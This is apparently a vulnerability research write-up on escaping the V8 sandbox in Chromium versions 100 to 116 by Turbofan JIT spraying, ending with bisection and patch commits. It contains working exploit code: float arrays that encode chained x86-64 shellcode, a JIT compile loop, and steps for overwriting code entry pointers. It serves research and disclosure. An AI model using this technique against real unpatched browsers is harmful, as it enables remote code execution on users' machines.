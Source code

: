 # Escaping V8 Sandbox via Turbofan JIT Spraying (100.0.4896.60 <= Chromium < 117.0.5938.62)

In this post, I will explain how to escape V8 sandbox to get RCE via Turbofan JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4](https://chromium.googlesource.com/v8/v8/+/4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4) (Jul 11th, 2023)

Run [`setup.zsh`](./setup.zsh) in your working directory.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L26) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/1.png)

![](img/2.png)

![](img/3.png)

![](img/4.png)

`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region.

When `jit()` is called, `rip` moves to `instruction_start` pointer in `code` of `jit()`, which is inside of V8 sandbox. Using sandboxed AAW primitive, we can overwrite `instruction_start` pointer with arbitrary value, e.g. the address of number which we inserted to the optimized code. If so, the number acts like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/5.png)

```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/6.png)

If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

You have to install `/bin/calc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/7.png)

## Bisection

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)

[`v8_enable_external_code_space`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:BUILD.gn;l=415) was set to `true` in `x64` in the commit above, so [`code_entry_point`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=86) in [`CodeDataContainer`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=46) became available. As a result, the exploitation technique explained in this post was introduced.

## Patch

> [[sandbox] Enable code pointer sandboxing](https://chromium.googlesource.com/v8/v8/+/c8d039b05081b474ef751411a5c76ca01900e49a) (Jul 11th, 2023)
>
> [Revert "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/bc795ebd90a5a7c957b644da5fac369eb88aa87a) (Jul 11th, 2023)
>
> [Reland "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/7df23d5163a10a12e4b4262dd4e78cfb7ec97be0) (Jul 11th, 2023)
